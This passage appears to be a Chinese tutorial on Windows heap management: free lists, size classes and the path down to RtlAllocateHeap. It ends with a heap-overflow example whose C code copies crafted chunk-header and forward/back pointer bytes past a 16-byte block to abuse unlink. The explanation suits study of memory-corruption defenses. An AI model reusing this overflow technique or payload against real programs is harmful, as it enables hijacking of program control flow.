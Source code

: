 
用户调用free()或HeapFree()释放的那些内存被加入到具有相对应大小的内存块的空闲链表中。下图为空闲块结构：

![](https://cdn.jsdelivr.net/gh/zhyjc6/My-Pictures/2019/12/20191207143104.png)



很明显结构中多了8个字节，其实这8个字节是由HeapAlloc()返回的用户可寻址内存的前8个字节。调用HeapFree()后会在用户空间的这8个字节中写入下一块和上一块的地址（前向指针和后向指针），同时还会清空标志域中的忙碌位。

Windows 把内存块按照大小分为三类： 

- 小块：SIZE<1KB 
- 大块：1KB≤SIZE<512KB 
- 巨块：SIZE≥512KB 

对应的分配和释放算法也有三类，我们可以通过表 5-1-2 来理解 Windows 的堆管理策略。

![](https://cdn.jsdelivr.net/gh/zhyjc6/My-Pictures/2019/12/20191207143150.png)





#### 堆分配函数之间的调用关系 

Windows 平台下的堆管理架构可以用图 5.2.1 来概括。 

![](https://cdn.jsdelivr.net/gh/zhyjc6/My-Pictures/2019/12/20191207143218.png)



Windows 中提供了许多类型的堆分配函数，您可以在 MSDN 中找到这些函数的详细说明。 它们之间的关系如图 5.2.2 所示。 

![](https://cdn.jsdelivr.net/gh/zhyjc6/My-Pictures/2019/12/20191207143248.png)



所有的堆分配函数最终都将使用位于 **ntdll.dll** 中的 RtlAllocateHeap()函数进行分配，这个函数也是在用户态能够看到的最底层的堆分配函数。所谓万变不离其宗，这个“宗”就是 RtlAllocateHeap()。因此，研究 Windows 堆只要研究这个函数即可。 



#### 缓冲区溢出

基于堆的漏洞利用通常需要改写双链表结构中的前向和后向指针，然后在正常的堆处理过程中对修改过的链表结构进行操作（如unlink解链操作），能够导致对地址的覆写，从而劫持程序流程转而执行攻击者提供的代码。

漏洞代码如下

```c
 1. unsigned char shellcode[] = "\x90\x90\x90\x90";
 2. unsigned char malArg[] = "0123456789012345"   
		"\x05\x00\x03\x00\x00\x00\x08\x00"       
		"\xb8\xf5\x12\x00\x40\x90\x40\x00";//前后向指针

 3. void mem() {
 4.   HANDLE hp;
 5.   HLOCAL h1 = 0, h2 = 0, h3 = 0, h4 = 0;
 6.   hp = HeapCreate(0, 0x1000, 0x10000);			
 7.   h1 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 16);		
 8.   h2 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 128);		  
 9.   h3 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 16);		  
10.   HeapFree(hp,0,h2); 
11.   memcpy(h1, malArg, 32); 	
12.   h4 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 128); 
13.   return;
14. }

15. int _tmain(int argc, _TCHAR* argv[]) {
16.   mem();
17.   return 0; 
18. }

```